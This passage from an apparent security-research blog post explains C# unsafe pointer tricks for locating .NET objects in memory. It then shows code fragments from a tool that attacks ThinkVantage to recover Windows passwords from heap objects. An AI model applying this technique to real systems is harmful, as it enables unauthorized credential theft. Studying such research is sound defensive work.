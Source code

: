 So now we can say from objectPointer, we need to go one in to get the object pointer 

{% highlight c# %}

objectPointer = *(&objectPointer + 1);

{% endhighlight %}

Success! We now have the pointer to our 64bit object of memoryHijacker.abc
 
We can use the same method as our 32bit signature and just compare bytes of the Method Table. Note everything is now 8 bytes instead of 4 as we are in x64 land.

And to restore the object pointer when we have a match just reverse what we did to find the raw object IntPtr. 

{% highlight c# %}

public static IntPtr getObjectAddr64(object wantedObject)
{
	IntPtr objectPointer = (IntPtr)4;
	object refer = wantedObject;
	IntPtr objectPointer2 = (IntPtr)8;
	unsafe
	{
		objectPointer = *(&objectPointer + clrSub);
	}
	return objectPointer;
}

{% endhighlight %}

### 4.0 CLR

The 4.0 CLR does not requiring changing the x64 signature!


---

# Usage

[AutoThink](https://github.com/GrayKernel/AutoThink) has the source code required to launch the automated attack against ThinkVantage to recover a windows password. The key points are 

1.) Utilizing reflection to construct the object of interest

{% highlight c# %}
Type reference = typeof(QlClr.User);
ConstructorInfo[] ctor = reference.GetConstructors(BindingFlags.Instance | BindingFlags.Public | BindingFlags.NonPublic);
object wantedObj = ctor[0].Invoke(new object[2] { null, null });
{% endhighlight %}

2.) Obtaining all objects on the managed heap of the matching type

{% highlight c# %}
object[] allUsers = heapObjects.getAddresses(wantedObj);
{% endhighlight %}

